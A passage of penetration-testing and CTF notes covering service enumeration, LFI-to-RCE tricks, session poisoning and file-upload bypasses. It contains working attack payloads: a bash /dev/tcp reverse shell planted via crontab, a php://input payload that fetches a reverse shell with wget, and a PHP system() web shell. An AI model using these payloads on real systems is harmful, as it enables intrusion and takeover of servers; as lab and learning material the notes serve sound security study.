* It is important to check .profile files also. As it might contain scripts which are executed when a user is logged in. Also, it might be important to see how a application is storing password.

* If OPcache engine seemed to be enabled ( check from phpinfo.php file ) which may allow for exploitation (see the following article)https://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/

* Identification of OS:
	
 :: 

  cat /etc/os-release

  NAME="Ubuntu" VERSION="16.04 LTS (Xenial Xerus)" ID=ubuntu
  ID\_LIKE=debian PRETTY\_NAME="Ubuntu 16.04 LTS" VERSION\_ID="16.04"
  HOME\_URL="http://www.ubuntu.com/"
  SUPPORT\_URL="http://help.ubuntu.com/"
  BUG\_REPORT\_URL="http://bugs.launchpad.net/ubuntu/"
  UBUNTU\_CODENAME=xenial

* Many times if IPv6 is enabled, probably you can utilize IPv6 to connect and bypass firewall restrictions ( If firewall is not implemented at IPv6 level - many times it is not ).

 * To find IPv6 from SNMP 

  :: 

   snmpwalk -v2c -c public prism 1.3.6.1.2.1.4.34.1.3    
   iso.3.6.1.2.1.4.34.1.3.2.48.1.0.0.0.0.0.0.0.0.0.0.0.0.0.1 = INTEGER: 335544320
   iso.3.6.1.2.1.4.34.1.3.2.48.2.0.0.0.0.0.0.0.0.0.0.0.0.0.1 = INTEGER: 335544321
   iso.3.6.1.2.1.4.34.1.3.2.48.2.18.52.86.120.171.205.0.0.0.0.0.0.0.1 = INTEGER: 335544323

  Now, convert the decimal value after "iso.3.6.1.2.1.4.34.1.3.2" to hex which would be your IPv6 address "3002:1234:5678:ABCD::1"

 .. ToDo ::  Mention examples for IPv6 connect


* Port 139 Open

 :: 

   smbclient -N -L 192.168.1.2 WARNING: The "syslog" option is deprecated
   Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

   Sharename       Type      Comment
   ---------       ----      -------
   print$          Disk      Printer Drivers
   kathy           Disk      Fred, What are we doing here?
   tmp             Disk      All temporary files should be stored here
   IPC$            IPC       IPC Service (red server (Samba, Ubuntu))

   Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

   Server               Comment
   ---------            -------
   RED                  red server (Samba, Ubuntu)

   Workgroup            Master
   ---------            -------
   WORKGROUP            RED

   -N : If specified, this parameter suppresses the normal password prompt from the client to the user. This is useful when accessing a service that does not require a password. -L\|--list This option allows you to look at what services are available on a server. You use it as smbclient
   -L host and a list should appear. The -I option may be useful if your NetBIOS names don't match your TCP/IP DNS host names or if you are trying to reach a host on another network.


 If you want to access the share you might want to type

 :: 

   smbclient \\\\IP\\share\_name

 So, in the above example, it would be

 ::

   smbclient \\\\192.168.1.2\\kathy

 If port 139 is open, also run enum4linux, may be it would help get the user list
    
    


* Port 69 UDP:

  TFTP

  :: 

   get or put file

	    
* Ruby Best way to get quoted words / phrases out of the text

  :: 

    text.scan(/"([^"]\*)"/)

    
* Convert all text in a file from UPPER to lowercase
	
  :: 

   tr '[:upper:]' '[:lower:]' < input.txt > output.txt


* Remove lines longer than x or shorter than x

  :: 

   awk 'length($0)>x' filename or awk 'length($0)

* Remember, by default cewl generates a worldlist of one word. It by default ignore words in quotes. For example: if "Policy of Truth" is written in quotes. It will treat it as three words. However, what we wanted is to consider whole word between the quotes. By doing a small change in the cewl source code, we can get all the words in quotes, we also can remove spaces and changing upper to lower, we were able to create a small wordlist.

 
* Got a random string: Figure out what it could be? Hex encoded, base64 encoded, md5 hash. Use hash-identifier tool to help you.

* If a machine is running a IIS Server and we have found a way to upload a file. We can try asp web-shell or meterpreter of asp, aspx, aspx-exe executable formats from msfvenom.

* If we get a pcap file which contains 802.11 data and has auth, deauth and eapol key packets, most probably it's a packet-capture done using the wireless attack for WPA-Handshake. Use aircrack to see if there is any WPA handshake present.

 :: 

   13:06:21.922176 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.922688 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.923157 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.924224 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.924736 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.925723 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.933402 Probe Response (community) [1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 Mbit] CH: 11, PRIVACY
   13:06:21.933908 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.934427 Clear-To-Send RA:e0:3e:44:04:52:75 (oui Unknown) 
   13:06:21.991250 Authentication (Open System)-1: Successful
   13:06:21.992274 Authentication (Open System)-1: Successful
   13:06:21.992282 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.992795 Authentication (Open System)-2: 
   13:06:21.992787 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.994834 Assoc Request (community) [1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 Mbit]
   13:06:21.994843 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.996890 Assoc Response AID(1) : PRIVACY : Successful
   13:06:21.996882 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.011783 Action (e8:50:8b:20:52:75 (oui Unknown)): BA ADDBA Response
   13:06:22.012314 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.012827 BAR RA:e8:50:8b:20:52:75 (oui Unknown) TA:c4:12:f5:0d:5e:95 (oui Unknown) CTL(4) SEQ(0) 
   13:06:22.013330 BA RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.014874 CF +QoS EAPOL key (3) v2, len 117
   13:06:22.015379 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.030226 CF +QoS EAPOL key (3) v1, len 117
   13:06:22.030746 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.043034 CF +QoS EAPOL key (3) v2, len 175
   13:06:22.043026 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.054803 CF +QoS EAPOL key (3) v1, len 95
   13:06:22.056338 CF +QoS EAPOL key (3) v1, len 95
   13:06:22.056859 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.064514 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.065030 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.079878 Clear-To-Send RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.080901 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.108096 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:22.108096 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:22.110144 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station

* Transfer an image
	
 :: 

   base64 flair.jpg 
   Copy output 
   vi flair 
   Paste the clipboard 
   base64 -d flair > flair.jpg

* Have a web-accessible git ? utilize `dvcs-ripper <https://github.com/kost/dvcs-ripper>`_ to rip web accessible (distributed) version control systems: SVN, GIT, Mercurial/hg, bzr. It can rip repositories even when directory browsing is turned off. Eric Gruber has written a blog on `Dumping Git Data from Misconfigured Web Servers <https://blog.netspi.com/dumping-git-data-from-misconfigured-web-servers/>`_ providing good walkthru.

* It's always important to find, what's installed on the box:

 :: 

   dpkg-query -l 

 or using wild cards

 :: 

   dpkg-query -l 'perl*'

* It's always important to note down all the passwords found during the process of exploiting a vulnerable machine as there is a great possibility that passwords would be reused.
 
* If you have .jar file, Probably use jd-gui to decompile and view the class file. 


* Find recently modified files:

  ::

   find / -mmin -10 -type f 2>/dev/null

  The above will show you which files have been modified within the last 10 minutes, which could help you find out whether an important config file, or log file has been modified.

* Getting a reverse shell from:

 * Drupal: Now that we have access to the Drupal administration panel, we can gain RCE by enabling the PHP filter module. This will allow us to execute arbitrary code on the site by inserting a specifically crafted string into page content. After enabling the module, I proceed to allow code to be executed by all users under the configuration screen for the module. Once enabled we need to give permission to use it so in people -> permissions check "Use the PHP code text for. 
   
   Next, we create a new block (by going to Blocks, under the Structure menu) with the following content. We make sure to select PHP code from the Text format drop down. Taken from `Droopy Vulnhub WriteUp <https://g0blin.co.uk/droopy-vulnhub-writeup/>`_
   Drupal settings file location: /var/www/html/sites/default/settings.php
 
 * WordPress : If we have found a username and password of wordpress with admin privileges, we can upload a php meterpreter. One of the possible way is to do Appearance > Editor > Possibly edit 404 Template.

* If the only port which is open is 3128, check for the open proxy and route the traffic via the open proxy. Probably, squid proxy server would be running. If it is the squid configuration file is /etc/squid/squid.conf
 
 * If you do get the configuration file, do check for what kind of proxy it is! like SOCKS4, SOCKS5 or HTTP(S) proxy and is there any authentication required to access the proxy. 
 * We may utilize `Proxychains <https://github.com/haad/proxychains>`_ to access the other side of network like ssh, http etc. 

* Running Asterisk/ Elastix/ FreePBX or any PBX, probably try `SIPVicious <https://github.com/EnableSecurity/sipvicious>`_  suite is a set of tools that can be used to audit SIP based VoIP systems. Running http:\\IP\panel should provide us valid extensions.

* Sharepoint running? Probably, check `SPartan <https://github.com/sensepost/SPartan>`_ Frontpage and Sharepoint fingerprinting and attack tool and `SharePwn <https://github.com/0rigen/SharePwn>`_ SharePoint Security Auditor.

* authbind software allows a program that would normally require superuser privileges to access privileged network services to run as a non-privileged user. authbind allows the system administrator to permit specific users and groups access to bind to TCP and UDP ports below 1024.

* Mostly, if there's only port open like ssh and the IP might be acting as a interface between two networks? Like IT and OT. Probably, try to add that IP address as a default route? As it might be acting as a router?

* If you are trying to figure out the hostname of the machine and the DNS-Server is not configured, may be try to do a Full Nmap Scan -A Option? (Still need to figure out how does that work:)

* Want to send a email via the SMTP server something like SMTP-Open-Relay utilize `Swaks <http://www.jetmore.org/john/code/swaks/>`_ Swiss Army Knife for SMTP.

  ::

   swaks --to xxxxx@example.com --from xxxxxee@example.edu --server 192.168.110.105:2525 --body "Hey Buddy How are you doing" --header "Subject: Hello! Long time"

* Got /etc/shadow file?, utilize /etc/passwd with unshadow command and use john or cudahashcat to crack passwords.

 ::

  unshadow passwd shadown

* If IIS and WebDav with PUT and MOVE method are enabled, we can use testdav or cadaver (A command-line WebDAV client for Unix) to see which files are allowed

 ::

  davtest -url http://10.10.10.15/
  ********************************************************
   Testing DAV connection
  OPEN		SUCCEED:		http://10.10.10.15
  ********************************************************
  NOTE	Random string for this session: E3u9ISnNswYes0
  ********************************************************
   Creating directory
  MKCOL		SUCCEED:		Created http://10.10.10.15/DavTestDir_E3u9ISnNswYes0
  ********************************************************
   Sending test files
  PUT	pl	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.pl
  PUT	asp	FAIL
  PUT	aspx	FAIL
  PUT	cgi	FAIL
  PUT	html	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
  PUT	cfm	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.cfm
  PUT	jhtml	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jhtml
  PUT	shtml	FAIL
  PUT	php	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.php
  PUT	jsp	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jsp
  PUT	txt	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
  ********************************************************
   Checking for test file execution
  EXEC	pl	FAIL
  EXEC	html	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
  EXEC	cfm	FAIL
  EXEC	jhtml	FAIL
  EXEC	php	FAIL
  EXEC	jsp	FAIL
  EXEC	txt	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
  
  ********************************************************
  /usr/bin/davtest Summary:
  Created: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0
  PUT File: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.pl
  PUT File: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
  PUT File: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.cfm
  PUT File: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jhtml
  PUT File: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.php
  PUT File: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jsp
  PUT File: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
  Executes: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
  Executes: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
 
 Now, we can see that pl, html, txt and other files can be uploaded. Now, if the MOVE method is enabled, we can upload a php meterpreter in a text file and then MOVE the .txt file to .php and execute the php file.

* In one of the VM, one of the task was to capture the RAM of the system by using LiME ~ Linux Memory Extractor ( which is executed by suid binary with root privileges ). Let's say the ramdump was saved at

  ::

   /tmp/ramdump

  If, you create a symlink from /tmp/ramdump to /etc/crontab

  ::

   ln -s /etc/crontab /tmp/ramdump

  Now, when the ramdump is taken, lime will now dump the content of RAM straight into /etc/crontab. As crontab will ignore everything which doesn’t match the correct syntax. If the memory contains a injected string such as 

  ::

   cat cron.py
   print "* * * * * root /bin/bash /home/username/evilscript"
  
  the injected string will end up in /etc/crontab will be executed.

  The contents of evilscript can be

  ::

   /bin/bash -i >& /dev/tcp/IP/Port 0>&1

  which will provide the root shell to the attacker. Thanks to TheColonial :)
   
* Handy Stuff

 * Utilize xxd to convert hex to ascii

  ::

   xxd -r -p
   -p | -ps | -postscript | -plain : output in postscript continuous hexdump style. Also known as plain hexdump style.
   -r | -revert : reverse operation: convert (or patch) hexdump into binary.  If not writing to stdout, xxd writes into its output file without truncating it. Use the combination -r -p to read plain hexadecimal dumps without line number information and without a particular column layout. Additional Whitespace and line-breaks are allowed anywhere.

 * Use python

  * binascii.unhexlify(hexstr) to convert hex to string
  * base64.decodestring(str) to decode base64 string
  * Convert number to hex

   :: 
     
      hex(15)
      '0xf'

  * Convert hex to decimal

   ::

    s = "6a48f82d8e828ce82b82"
    i = int(s, 16)

 * Getting out of more
  
  If in somecase, we are unable to ssh into the machine or being logged out when trying ssh, check the /etc/passwd file for the shell defined for that user.

  ::
   
    cat /etc/passwd | grep user1
    user1:x:11026:11026:user level 1:/home/user1:/usr/bin/showtext

  Here Instead of /bin/bash, user1 is using /usr/bin/showtext, which is apparently not a shell. Let’s look at the content of the file

  ::

    cat /usr/bin/showtext
    #!/bin/sh
    more ~/text.txt
    exit 0

  In such cases, First, minimize your terminal so that when we are logged into user1 via ssh command, the large text will force a “more” message to prompt us to continue the output. Now that we have forced the terminal to prompt us to continue the display via “more” or “–More–(50%)” in this case, press “v” to enter “vim”, a built-in text editor on Unix machines. Once, we have vim interface, use :shell to get a shell.

 * List all the files together

  ::

   find /home -type f -printf "%f\t%p\t%u\%g\t%m\n" 2>/dev/null | column -t
 

Cyber-Deception
===============

Wordpot
-------

`Wordpot <https://github.com/gbrindisi/wordpot>`_ : Wordpot is a Wordpress honeypot which detects probes for plugins, themes, timthumb and other common files used to fingerprint a wordpress installation.

::

 python /opt/wp/wordpot.py --host=$lanip --port=69 --title=Welcome to XXXXXXX Blog Beta --ver=1.0 --server=XXXXXXXWordpress

FakeSMTP
--------

`FakeSMTP <http://nilhcem.com/FakeSMTP/>`_ : FakeSMTP is a Free Fake SMTP Server with GUI for testing emails in applications easily.

::

  java -jar /opt/fakesmtp/target/fakeSMTP-2.1-SNAPSHOT.jar -s -b -p 2525 127.0.0.1 -o /home/username

Rubberglue
----------

`Rubberglue <https://github.com/adhdproject/adhdproject.github.io/blob/master/Tools/Rubberglue.md>`_ : We can use Rubberglue to listen on a port such that any traffic it receives on that port it will forward back to the client ( attacker ) on the same port.

::

  python2 /opt/honeyports/honeyports-0.4.py -p 23

Knockd
------

`Knockd - Port-knocking server <http://www.zeroflux.org/projects/knock>`_ : knockd is a port-knock server. It listens to all traffic on an ethernet (or PPP) interface, looking for special "knock" sequences of port-hits. A client makes these port-hits by sending a TCP (or UDP) packet to a port on the server. This port need not be open -- since knockd listens at the link-layer level, it sees all traffic even if it's destined for a closed port. When the server detects a specific sequence of port-hits, it runs a command defined in its configuration file. This can be used to open up holes in a firewall for quick access.

If there is port knocking involved, read the /etc/knockd.conf, read the sequence port know should be done and execute

::

 for PORT in 43059 22435 17432; do nmap -PN 192.168.56.203 -p $PORT; done

DCEPT
-----

SecureWorks researchers have created a solution known as `DCEPT (Domain Controller Enticing Password Tripwire) <https://www.secureworks.com/blog/dcept>`_ to detect network intrusions. Github is `dcept <https://github.com/secureworks/dcept>`_ 

Useful Tools
============

* `exe2hex <https://github.com/g0tmi1k/exe2hex>`_ : Inline file transfer using in-built Windows tools (DEBUG.exe or PowerShell). 

* `Powercat <https://github.com/secabstraction/PowerCat>`_ : A PowerShell TCP/IP swiss army knife that works with Netcat & Ncat

.. _A1-Local-file-Inclusion:

Appendix-I : Local File Inclusion
=================================

Local File Inclusion (LFI) is a type of vulnerability concerning web server. It allow an attacker to include a local file on the web server. It occurs due to the use of not properly sanitized user input.

Tools
-----

To test LFI, RFI, we can also use `Uniscan <http://tools.kali.org/web-applications/uniscan>`_ Uniscan is a simple Remote File Include, Local File Include and Remote Command Execution vulnerability scanner. 

::

  uniscan -h
  OPTIONS:
    -h  help
    -u  <url> example: https://www.example.com/
    -f  <file> list of url's
    -b  Uniscan go to background
    -q  Enable Directory checks
    -w  Enable File checks
    -e  Enable robots.txt and sitemap.xml check
    -d  Enable Dynamic checks
    -s  Enable Static checks
    -r  Enable Stress checks
    -i  <dork> Bing search
    -o  <dork> Google search
    -g  Web fingerprint
    -j  Server fingerprint

  usage:
  [1] perl ./uniscan.pl -u http://www.example.com/ -qweds
  [2] perl ./uniscan.pl -f sites.txt -bqweds
  [3] perl ./uniscan.pl -i uniscan
  [4] perl ./uniscan.pl -i "ip:xxx.xxx.xxx.xxx"
  [5] perl ./uniscan.pl -o "inurl:test"
  [6] perl ./uniscan.pl -u https://www.example.com/ -r

There's another tool called `fimap <https://tools.kali.org/web-applications/fimap>`_. However, it is better to check the source of uniscan for LFI and see what it is trying and try that with curl specially if cookies are required to set (in case of authenticated LFI). Personally, I tried Uniscan and for some reason cookie feature was not working and fimap only support POST parameter in cookie no GET.

.. Note :: Also, if we have unprivileged user shell or an ability to store a file somewhere in the filesystem, however don't have permission to write in /var/www/html but does have LFI, we can still write (php meterpreter shell) in /tmp or user home directory and utilize LFI to get a reverse shell.

Filtering in LFI
^^^^^^^^^^^^^^^^

Sometimes, there might be some filtering applied by default. For example: filename=secret.txt, here it is possible that it will only read files named secret.txt or with extension .txt. So, may be rename your payload accordingly. 

For example: the below code only includes the file which are named secret
::

 <?php
   $file = @$_GET['filname'];
   if(strlen($file) > 55)
      exit("File name too long.");
   $fileName = basename($file);
   if(!strpos($file, "secret"))
     exit("No secret is selected.");
   echo "<pre>";
   include($file);
   echo "</pre>";
 ?>

LFI to Remote Code Execution
----------------------------

Mainly taken from `LFI-Cheat-Sheet <https://highon.coffee/blog/lfi-cheat-sheet/>`_ , `Exploiting PHP File Inclusion – Overview <https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/>`_ and `Upgrade from LFI to RCE via PHP Sessions <https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/>`_

There are variety of different tricks to turn your LFI into RCE. Using 

File upload forms/ functions
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Figure out if there are any upload forms or functions, we will upload your malicious code to the victim server, which can be executed.

PHP wrapper expect://command
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Allows execution of system commands via the php expect wrapper, unfortunately this is not enabled by default.

An example of PHP expect:

::

 http://IP/fileincl/example1.php?page=expect://ls

If PHP expect wrapper is disabled, below error is encountered.

::

 Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you<br> configured PHP? in /var/www/fileincl/example1.php on line 7 
 Warning: include(): Unable to find the<br> wrapper "expect" - did you forget to enable it when you configured PHP? in <br> /var/www/fileincl/example1.php on line 7 
 Warning: include(expect://ls): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 
 Warning: include(): Failed opening 'expect://ls' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7

PHP wrapper php://file
^^^^^^^^^^^^^^^^^^^^^^
PHP wrapper php://filter
^^^^^^^^^^^^^^^^^^^^^^^^

php://filter is a kind of meta-wrapper designed to permit the application of filters to a stream at the time of opening. This is useful with all-in-one file functions such as readfile(), file(), and file_get_contents() where there is otherwise no opportunity to apply a filter to the stream prior the contents being read.

The output is encoded using base64, so you’ll need to decode the output.

::

 http://IP/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd

or

We could use php filter to read the source code of a PHP File

:: 

  http://xqi.cc/index.php?m=php://filter/read=convert.base64-encode/resource=index.php

More information can be found at `Using PHP for file inclusion <https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/>`_

PHP input:// stream
^^^^^^^^^^^^^^^^^^^

php://input allows you to read raw POST data. It is a less memory intensive alternative to $HTTP_RAW_POST_DATA and does not need any special php.ini directives. php://input is not available with enctype=”multipart/form-data”.

Send your payload in the POST request using curl, burp.

Example:

::

 http://IP/fileincl/example1.php?page=php://input


Post Data payload:

::

  <? system('wget http://IP/php-reverse-shell.php -O /var/www/shell.php');?>

After uploading execute the reverse shell at 

::

 http://IP/shell.php

data://text/plain;base64,command
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

/proc/self/environ
^^^^^^^^^^^^^^^^^^

If it’s possible to include /proc/self/environ from your vulnerable LFI script, then code execution can be leveraged by manipulating the User Agent parameter with Burp. After the PHP code has been introduced /proc/self/environ can be executed via your vulnerable LFI script.

/proc/self/fd
^^^^^^^^^^^^^

If it’s possible to introduce code into the proc log files that can be executed via your vulnerable LFI script. Typically you would use burp or curl to inject PHP code into the referer.

This method is a little tricky as the proc file that contains the Apache error log information changes under /proc/self/fd/ e.g. /proc/self/fd/2, /proc/self/fd/10 etc. 
Utilize `LFI-LogFileCheck.txt <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion%20-%20Path%20Traversal/Intruders/LFI-LogFileCheck.txt>`_ with Burp Intruder, and check for the returned page sizes.

Control over PHP Session Values
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Let's say, a vulnerable page is present with the post request

::

 POST /upload/? HTTP/1.1
 Host: vulnerable.redacted.com
 User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Content-Type: application/x-www-form-urlencoded
 Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27
 Content-Length: 44
 Connection: close
 Upgrade-Insecure-Requests: 1
 
 login=1&user=admin&pass=admin&lang=en_us.php

with LFI

::

 login=1&user=admin&pass=admin&lang=../../../../../../../../../../etc/passwd

Now, the server store cookies

::

 Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
 Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
 Set-Cookie: pass=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly

As we know PHP5 stores it’s session files by default under /var/lib/php5/sess_[PHPSESSID]. (If not, do check phpinfo and figure out the location of temp files) – so the above issued session “i56kgbsq9rm8ndg3qbarhsbm27” would be stored under /var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27

Now, we can write the cookie with a php command

::

 POST /upload/? HTTP/1.1
 Host: vulnerable.redacted.com
 User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Content-Type: application/x-www-form-urlencoded
 Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27
 Content-Length: 134
 Connection: close
 Upgrade-Insecure-Requests: 1

 login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php

This would result in 

::

 Set-Cookie: user=%3C%3Fphp+system%28%22cat+%2Fetc%2Fpasswd%22%29%3B%3F%3E; expires=Mon, 13-Aug-2018 20:40:53 GMT; path=/; httponly

Now, the php command can be executed using

::

 POST /upload/? HTTP/1.1
 Host: vulnerable.redacted.com
 User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 141
 Connection: close
 Upgrade-Insecure-Requests: 1

 login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27

The session file could again afterwards be included using the LFI (note that you need to remove the cookie from the request, otherwise it would get overwritten again and the payload would fail)

Email Server 
^^^^^^^^^^^^

.. _A2-File-Upload:

Appendix-II File Upload
=======================

Examples
--------

Simple File Upload
^^^^^^^^^^^^^^^^^^

Intercepting the request in Burp/ ZAP and changing the file-extension.

Below is the PHP code

::

  <?  

  function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
  } 

  function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
  } 

  function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
  } 

  if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
  } else { 
  ?> 
  <form enctype="multipart/form-data" action="index.php" method="POST">  
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />  
  <input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />  
  Choose a JPEG to upload (max 1KB):<br/>  
  <input name="uploadedfile" type="file" /><br />  
  <input type="submit" value="Upload File" />  
  </form>  
  <? } ?>   

If we change the extension of filename tag from JPG to PHP, we may be able to execute code remotely.

* Create a fake JPG containing php code.

  We’ll be using system() to read our password.

 ::

   echo "<?php system($_GET["cmd"]); ?>" > shell.jpg  

* Upload JPG, intercept in Burp/ ZAP and change the extension

 ::

   <input name="filename" value="o0xn5q93si.jpg" type="hidden">  

  is changed to

 ::

  <input name="filename" value="o0xn5q93si.php" type="hidden">  

Simple File Upload - With verifying image type
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

In this the above PHP code remain almost the same apart from little addition that we check the filetype of the file uploaded

::

  <?php  
  ...  
  
  else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {  
        echo "File is not an image";  
    }  
  
  ...  
  
  ?> 

Since the exif_imagetype function checks the filetype of the uploaded file. It checks the first bytes of an image are against a signature. Most filetypes such as JPEG, ZIP, TAR, etc. have a "Magic Number" at the beginning of the file to help verify its file type. So to pass the exif_imagetype function check, our file must start with the magic number of a supported image format.

* Take a valid file (JPG or whichever file format, we are trying to bypass), take the valid hexdump of that file (Let's say first 100 bytes)

 ::

   hexdump -n 100 -e '100/1 "\\x%02X" "\n"' sunflower.jpg

   -n length         : Interpret only length bytes of Input
   -e format_string  : Specify a format string to be used for displaying data

 Example:
 
 ::

   hexdump -n 100 -e '100/1 "\\x%02X" "\n"' sunflower.jpg
   \xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x46\x00\x01\x01\x01\x01\x2C\x01\x2C\x00\x00\xFF\xE1\x00\x16\x45\x78\x69\x66\x00\x00\x4D\x4D\x00\x2A\x00\x00\x00\x08\x00\x00\x00\x00\x00\x00\xFF\xDB\x00\x43\x00\x05\x03\x04\x04\x04\x03\x05\x04\x04\x04\x05\x05\x05\x06\x07\x0C\x08\x07\x07\x07\x07\x0F\x0B\x0B\x09\x0C\x11\x0F\x12\x12\x11\x0F\x11\x11\x13\x16\x1C\x17\x13\x14\x1A\x15\x11\x11\x18\x21\x18\x1A\x1D\x1D\x1F
  
